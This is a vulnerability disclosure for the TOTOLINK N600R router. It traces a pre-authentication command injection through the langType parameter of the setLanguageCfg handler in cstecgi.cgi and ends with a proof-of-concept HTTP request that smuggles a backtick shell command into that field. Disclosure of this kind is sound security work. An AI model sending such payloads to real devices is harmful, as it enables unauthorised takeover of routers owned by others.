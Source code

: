 # Information



Vendor of the products:  Shenzhen Shengshi Zhongtang Technology Co., Ltd..(TOTOLINK)

Vendor's website:  [TOTOLINK](https://totolink.tw/)

Reported by:  Wang Jinshuai(3265296623@qq.com),   Tang Bingceng(2640807724@qq.com)

Affected products:  TOTOLINK N600R

Affected firmware version:  V4.3.0cu.7866_B20220506

Firmware download address:  [N600R 雙倍飆速無線分享器｜TOTOLINK 台灣](https://totolink.tw/support_view/N600R)



# Overview

The vulnerability resides in the /web_cste/cgi-bin/cstecgi.cgi binary. The sub_4159F8 routine obtains user-supplied input from the frontend and concatenates it into the argument of the system() call without proper validation or sanitization, resulting in a pre-authentication command injection flaw. An unauthenticated attacker can submit specially crafted payloads to execute arbitrary system commands.



# Vulnerability details

Through analysis of the /web_cste/cgi-bin/cstecgi.cgi binary that provides the device’s web service, a pre-authentication command injection vulnerability was identified. Around line 260 in main, the program matches the user input against the string setting/setLanguageCfg, and upon a match, execution branches to approximately line 340.

![image-20250828151423665](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281514696.png)

It then consults the set_handle_t dispatch table to resolve the corresponding handler based on the matched value and invokes it.

![image-20250828151749581](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281517612.png)

The setLanguageCfg entry resolves to the handler at sub_415840.

![image-20250828152903482](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281529503.png)

At approximately line 405 in main, the resolved handler is retrieved and invoked.

![image-20250828152807766](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281528787.png)

The variable Var receives client-supplied data via the langType parameter and is directly concatenated into v5 using sprintf(). Due to the lack of strict input validation, an attacker can leverage backtick-based command substitution to execute arbitrary commands.

![image-20250826153724887](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130214.png)



# POC

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 73
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
"topicurl":"setting/setLanguageCfg",
"langType":"`ls -l > ../123.txt`"
}
```

# Effect Demonstration

![image-20250826153644908](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130729.png)




![image-20250826153629484](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130868.png)
